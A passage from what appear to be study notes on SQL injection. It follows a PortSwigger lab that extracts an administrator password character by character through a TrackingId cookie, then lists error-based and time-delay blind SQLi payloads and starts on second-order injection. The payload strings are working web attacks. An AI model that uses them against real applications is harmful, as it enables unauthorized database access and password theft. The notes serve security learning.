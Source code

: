 5. Now we have to guess the characters. for this use `TrackingId=xyz' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a`. Use intruder, add the target character(here a) to position(like `TrackingId=xyz' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='§a§`) and set the payload from a-z0-9. For the correct character the 'Welcome Back message will be shown'.
6. To look for second character only change will be like this `TrackingId=xyz' AND (SELECT SUBSTRING(password,2,1) FROM users WHERE username='administrator')='a`. To this for the rest of character positions.
7. The password is `htz9ppvpxwybr4u53dse`.

In the above example the SQLi was reflected using the 'welcome back' message. In case when there is no such differences we can trigger SQL errors. Eg in the following the second statement gives divide by zero error:
```
xyz' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a
xyz' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a
```

Also we can use time delays like
```
xyz'; IF (1=2) WAITFOR DELAY '0:0:10'--
xyz'; IF (1=1) WAITFOR DELAY '0:0:10'--
```
Using this technique, we can retrieve data in the way already described, by systematically testing one character at a time:
```
'; IF (SELECT COUNT(Username) FROM Users WHERE Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') = 1 WAITFOR DELAY '0:0:{delay}'--
```
**Note** In some database instead of `WAITFOR DELAY` it use `pg_sleep(10)--`

Read more on blind SQLi at [portswigger](https://portswigger.net/web-security/sql-injection/blind)

-----
## Second-order SQL injection
In second-order SQL injection (also known as stored SQL injection), the application takes user input from an HTTP request and stores it for future use. This is usually done by placing the input into a database, but no vulnerability arises at the point where the data is stored. Later, when handling a different HTTP request, the application retrieves the stored data and incorporates it into an SQL query in an unsafe way.
